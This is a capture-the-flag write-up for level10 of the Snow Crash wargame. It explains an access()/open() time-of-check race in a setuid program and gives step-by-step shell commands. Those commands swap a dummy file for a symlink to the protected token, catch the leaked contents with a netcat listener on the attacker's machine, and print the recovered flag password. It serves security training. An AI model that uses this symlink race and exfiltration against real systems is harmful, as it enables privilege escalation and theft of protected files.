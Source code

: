 # Write up

One more time, we have two files : `level10` and `token`
We don't have any access to the token file, and the level10 program takes two argument : a file name and an host ip to send the file
Using `nm -u` on the level10 program let us know that the program use the C socket library.

Same routine, we download it, decompile it and analyse it.
This time, we can see a call to the access function : 
```
if (access(dwArg08->ptr0004, 0x04) == 0x00)
```
- `dwArg08->ptr0004` is `argv[1]`
- `0x04` is the `R_OK` flag (read access, see man chmod and man access)
- `0x00` is returned if the access call succeded
Which means that we need read access in the token file in order to access it

The program is owned by flag10, but the access function use our uid.
The access man let us know that in some case access can be vulnerable to Race Conditions,
And by reading the source code it seems to be one of those cases (open() after access())

We will have to create a file with rights, like `touch /tmp/ok`, then execute `level10`
And while level10 is waiting for the `connect` return, we will have to replace the tmp/ok file by a sim link using `ln -s token /tmp/ok`

With a dummy file containing the "aaa" string, we test the program : `./level10 /tmp/test 192.168.56.1`
We notice that the program try to connect to my address using the port 6969.
I receipt it on my machine : `nc -l 6969`, which make the program to terminate and my machine to display the file contents.
It lets us a very large window to act.

We will process in 3 steps, using 2 shells in the Snow Crash VM and 1 shell on my local machine.

- Step 1 :
```
touch /tmp/lidl;./level10 /tmp/lidl 192.168.56.1
```
In the 1st VM shell, we create the dummy file, we pass the access call and wait for the connection

- Step 2 :
```
rm -f /tmp/lidl;ln -fs ~/token /tmp/lidl
```
In the 2nd VM shell, while the first one is still waiting, we replace the dummy file by a malicious symlink

- Step 3 :
```
nc -l 6969
```
In the local machine, we listen to the port 6969, letting the 1st VM shell pass the connect function and opening the malicious symlink

After few seconds, the flag10 password is displayed on our local machine : `woupa2yuojeeaaed06riuj63c`

## Sources

- man access